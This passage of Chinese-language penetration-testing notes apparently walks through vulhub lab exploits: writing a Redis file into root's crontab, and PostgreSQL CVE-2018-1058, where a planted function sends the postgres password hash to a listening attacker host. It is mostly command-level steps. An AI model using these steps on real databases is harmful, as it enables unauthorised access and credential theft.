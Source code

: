    ```
   config set dir /var/spool/cron/crontabs/ 
   config set dbfilename root 
   save
   ```

3. 攻击机使用nc命令监听

   ```
   nc -nlvp 7777
   ```



### Postgre

#### CVE-2018-1058

影响版本：`9.3-10`

原理：9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作

流程：

1. 普通用户连接到数据库

   ```
   psql --host 192.168.144.1 --username vulhub 
   输入口令：vulhub
   ```

2. 注入危险代码

   ```
   CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
       select dblink_connect((select 'hostaddr=192.168.144.1 port=1234 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
       SELECT pg_catalog.array_to_string($1,$2);
   $$ LANGUAGE SQL VOLATILE;
   ```

3. 开启nc命令进行监听，等待超级用户登录触发后门

   ```
   nc -lvvp 1234
   ```

4. 超级用户的身份使用`pg_dump`命令对数据库进行备份

   ```
   pg_dump -U postgres -f evil.bak vulhub
   ```

5. 收到管理员密码

具体可以看[该文章](https://www.freesion.com/article/7081506220/)



#### CVE-2019-9193

影响版本：`9.3-11.2`

